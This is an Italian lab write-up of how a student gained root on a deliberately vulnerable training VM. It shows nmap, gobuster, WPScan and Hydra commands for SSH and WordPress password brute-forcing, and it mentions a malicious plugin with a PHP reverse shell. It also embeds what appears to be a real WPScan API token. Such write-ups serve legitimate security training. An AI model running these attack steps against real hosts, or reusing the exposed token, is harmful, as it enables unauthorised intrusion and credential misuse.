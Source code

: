 # EXTRA S6/L5
# 🛡️Vancouver 2018 Exploitation report

## 📋 **Descrizione Generale**
Questa relazione descrive i passi eseguiti durante l'analisi e l'attacco alla macchina virtuale (VM) fornita dal professore. Ho ottenuto accesso root tramite un approccio metodico utilizzando diverse tecniche di enumerazione e attacco.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione della VM**: 
   - Ho importato l'OVA fornitami dal professore.
   - La VM è stata avviata correttamente su VirtualBox/VMware.

2. **Scansione dell'indirizzo IP**:
   - Per identificare l'IP della VM assegnato dal router di casa, ho utilizzato **Nmap**:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'IP rilevato della VM target è **192.168.1.170**.

---

## 🔍 **Fase di Scansione e Enumerazione**
### 1️⃣ **Scansione delle Porte**
- Ho eseguito una scansione con Nmap per identificare i servizi attivi:
  ```bash
  nmap -sV -p- 192.168.1.170
  ```
- **Risultato**: Porta **FTP** attiva.

### 2️⃣ **Accesso FTP Anonimo**
- Dopo aver rilevato il servizio FTP, ho provato un accesso anonimo:
  ```bash
  ftp 192.168.1.170
  ```
- L'accesso è stato consentito come utente anonimo.
- Nella directory `public`, ho trovato il file **users.txt.bk**, contenente una lista di nomi utente.

### 3️⃣ **Scoperta di WordPress**
- Ho notato durante la scansione Nmap che la porta **80** era aperta e ospitava un servizio web HTTP.
- Utilizzando **Gobuster**, ho eseguito una scansione più aggressiva per individuare directory nascoste:
  ```bash
  gobuster dir -u http://192.168.1.170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
  ```
- **Risultato**: La scansione ha rilevato la presenza del file **robots.txt**:
  ```
  /robots.txt           (Status: 200) [Size: 43]
  ```
- Ho scaricato il file **robots.txt** per esaminarlo:
  ```bash
  curl http://192.168.1.170/robots.txt
  ```
- Il contenuto di **robots.txt** ha rivelato la directory nascosta **/backup_wordpress**.
- Ho visitato l'indirizzo `http://192.168.1.170/backup_wordpress` per esaminare il sito.
- Per ulteriore conferma, ho lanciato una scansione mirata con **WPScan**:
  ```bash
  wpscan --url http://192.168.1.170/backup_wordpress --api-token Tc1sdQWKLxFRktkneIXAx6CiY5a98HdnyhYaBr34058
  ```
- Il risultato ha confermato la presenza di un'installazione WordPress vulnerabile.

---

## 🔐 **Tentativi di Accesso ai Servizi**
### 4️⃣ **Enumerazione con WordPress**
- Utilizzando **WPScan**, ho eseguito un'analisi del sito WordPress rilevando una **vulnerabilità del software** che mi ha permesso di individuare le credenziali di accesso:
  ```bash
  wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords /usr/share/wordlists/rockyou.txt --api-token Tc1sdQWKLxFRktkneIXAx6CiY5a98HdnyhYaBr34058
  ```
- Dopo aver ottenuto le credenziali di accesso al pannello amministrativo, mi sono loggato su WordPress.
- Ho caricato un **plugin malevolo** contenente una **reverse shell PHP**, ottenendo una connessione backdoor al sistema.
- Tuttavia, mi sono ritrovato limitato all'utente **www-data**, con privilegi bassi. 

### 5️⃣ **Attacco Dizionario con Hydra su SSH** 🚀
Per bypassare le limitazioni, ho deciso di effettuare un attacco di dizionario con **Hydra** sul servizio SSH, utilizzando il file `rockyou.txt`.

**Comando utilizzato**:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.170
```

- **Risultato**: Ho trovato la combinazione:
  - **Username**: `anne`
  - **Password**: `princess`

---

## 🏆 **Accesso Root**
1. Dopo aver ottenuto le credenziali, ho eseguito il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```
2. Ho verificato se l'utente aveva privilegi sudo:
   ```bash
   sudo su
   ```
3. Inserendo nuovamente la password, sono diventato **root**.

### 📌 **Verifica Utente Root**
Per confermare l'accesso root, ho utilizzato i seguenti comandi:
```bash
whoami
id
```
- **Output**: `root` ✅

---

## 🎯 **Conclusione**
Ho ottenuto accesso completo alla macchina target partendo da una fase di **enumerazione** fino all'ottenimento dei privilegi **root**. La metodologia seguita è stata:

1. Identificazione dei servizi attivi con Nmap.
2. Accesso anonimo FTP e raccolta di informazioni.
3. Scoperta e exploit su WordPress con **WPScan** e caricamento di una **reverse shell**.
4. Scansione delle directory con **Gobuster** e individuazione del file **robots.txt**.
5. Identificazione della directory **/backup_wordpress** nascosta.
6. Attacco SSH con **Hydra** utilizzando la potenza bruta del mio hardware.
7. Escalation di privilegi per ottenere **root access**.

🚀 **Missione completata con successo!**
